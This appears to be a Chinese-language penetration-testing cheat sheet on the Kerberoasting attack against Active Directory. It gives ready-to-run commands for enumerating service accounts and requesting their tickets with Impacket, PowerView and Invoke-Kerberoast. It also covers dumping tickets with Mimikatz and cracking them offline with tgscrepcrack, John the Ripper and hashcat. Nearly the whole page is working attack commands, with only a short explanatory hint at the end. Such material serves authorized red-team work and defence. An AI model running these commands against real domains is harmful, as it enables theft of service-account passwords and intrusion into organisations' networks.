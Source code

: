 ```yaml
---
description: 基于Kerberos认证 / 获取TGS后进行离线暴破从而获取明文密码
---
```


# ✔️ Kerberoasting攻击

## 先决条件

* 已经获得目标域内的基本立足点（普通用户权限即可）
* 需要目标域内用户账户的SPN
* 需要获取到服务票据（TGS）
* 暴破工具 + 字典文件

## 常用工具

### Impacket

* 常用脚本：**GetUserSPNs.py**

```bash
# 识别SPN
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx
# 请求服务票据TGS
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx -request
# 导出票据文件
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx -request -outputfile hash.txt
```

### Powershell

* 常用脚本：**PowerView.ps1**

```powershell
# 识别SPN
Get-NetUser -username "svc_tgs" -SPN | select samaccountname, primarygroupid, serviceprincipalname

Import-Moudle .\PowerView.ps1
Get-NetUser -SPN

# Empire，指定获取到的票据以适用于hashcat暴破的格式输出
Import-Module .\Invoke-kerberoast.ps1
Invoke-Kerberoast -Domain target.com -OutputFormat Hashcat | fl

# 导出所有票据（和mimikatz类似）
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### mimikatz.exe

```powershell
mimikatz.exe
# 先提升权限
privilege::debug
# 查看当前票据
kerberos::list
# 获取当前的所有票据并导出
sekurlsa::tickets /export
# 将导出的.kirbi文件转换成txt文件，在用john the ripper或者hashcat进行离线暴破
```

### kerberoast

* 常用脚本：**tgscrepcrack.py、**GetUserSPNs.ps1、GetUserSPNs.vbs

```bash
# 离线暴破
python3 tgscrepcrack.py rockyou.txt xxxxxxxxxxxxxxxxxxxxx.kirbi
```

### John the Ripper

```bash
# 离线暴破
john --format=krb5tgs hash.txt rockyou.txt
```

### Hashcat

```bash
# 离线暴破
hashcat -m 13100 hash.txt rockyou.txt
```

{% hint style="info" %}
Kerberoasting攻击在内网渗透中很常见，本质上是通过获取目标域内的服务账户的服务票据（TGS），然后通过离线爆破来还原出明文密码。该攻击方式仅需要有目标域内的普通用户账户权限即可向DC请求相关的TGS。
{% endhint %}
